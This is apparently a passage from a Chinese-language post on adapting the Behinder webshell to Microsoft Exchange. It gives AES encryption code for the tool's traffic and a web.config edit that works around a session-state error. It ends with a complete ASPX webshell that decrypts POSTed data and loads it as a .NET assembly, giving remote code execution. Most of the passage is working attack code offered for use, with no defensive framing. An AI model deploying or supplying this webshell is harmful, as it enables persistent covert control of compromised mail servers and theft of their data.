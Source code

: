 参照解密代码，推出对应的加密代码如下：

```
   public static string Encrypt(string str, string key)
    {            
        Byte[] toEncryptArray = Encoding.UTF8.GetBytes(str);
        Byte[] toEncryptKey = Encoding.UTF8.GetBytes(key);
        //Byte[] resultArray = new System.Security.Cryptography.RijndaelManaged().CreateEncryptor(toEncryptKey, toEncryptKey).TransformFinalBlock(toEncryptArray, 0, toEncryptArray.Length);
        RijndaelManaged rm = new RijndaelManaged
        {
            Mode = CipherMode.CBC,
            Padding = PaddingMode.PKCS7
        };
        ICryptoTransform cTransform = rm.CreateEncryptor(toEncryptKey, toEncryptKey);
        Byte[] resultArray = cTransform.TransformFinalBlock(toEncryptArray, 0, toEncryptArray.Length);
        return Encoding.UTF8.GetString(resultArray);      
    }
```

Exchange下直接使用冰蝎会报错，错误原因：

```
Session state can only be used when enableSessionState is set to true, either in a configuration file or in the Page directive. Please also make sure that System.Web.SessionStateModule or a custom session state module is included in the <configuration>\<system.web>\<httpModules> section in the application configuration.
```

这里需要修改Webshell路径对应的web.config文件，找到位置：

```
<system.webServer>
    <modules>
```

去掉`<remove name="Session" />`即可

类似的还有[Godzilla](https://github.com/BeichenDream/Godzilla/)

### (3)修改后的实现代码

在Exchange下应避免使用Session传递数据，这里改用POST请求传递数据，最终代码如下：

```
<%@ Page Language="C#" %>
<%
if (Request.Form["k"]!=null&&Request.Form["data"]!=null)
{
    Byte[] k=Convert.FromBase64String(Request.Form["k"]);
    Byte[] c=Convert.FromBase64String(Request.Form["data"]);
    System.Reflection.Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this); 
}
%>
```
